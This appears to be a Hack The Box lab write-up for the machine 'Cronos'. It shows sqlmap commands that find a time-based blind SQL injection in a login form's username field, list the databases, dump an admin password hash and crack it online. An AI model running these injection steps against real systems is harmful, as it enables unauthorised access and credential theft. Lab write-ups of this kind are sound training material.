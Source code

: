 #### Use `login.http` request to discover time-based blind SQLi with `sqlmap`
```
┌──(magicrc㉿perun)-[~/attack/HTB Cronos]
└─$ sqlmap -r login.http --batch --level 3
<SNIP>
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 883 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 1737 FROM (SELECT(SLEEP(5)))WoEo)-- Brvm&password=admin
---
<SNIP>
```

#### Use time-based blind SQLi to list databases
```
┌──(magicrc㉿perun)-[~/attack/HTB Cronos]
└─$ sqlmap -r login.http --batch --level 3 --dbs
<SNIP>
available databases [2]:
[*] `admin`
[*] information_schema
```

#### Use time-based blind SQLi to list tables in `admin` database
```
┌──(magicrc㉿perun)-[~/attack/HTB Cronos]
└─$ sqlmap -r login.http --batch --level 3 -D admin --tables
<SNIP>
Database: admin
[1 table]
+-------+
| users |
+-------+
```

#### Use time-based blind SQLi to list dump in `user` table
```
┌──(magicrc㉿perun)-[~/attack/HTB Cronos]
└─$ sqlmap -r login.http --batch --level 3 -D admin -T users --dump   
<SNIP>
+----+----------------------------------+----------+
| id | password                         | username |
+----+----------------------------------+----------+
| 1  | 4f5fffa7b2340178a716e3832451e058 | admin    |
+----+----------------------------------+----------+
```

#### Use `https://md5hashing.net` to 'reverse' MD5 hash
```
4f5fffa7b2340178a716e3832451e058 -> 1327663704
```
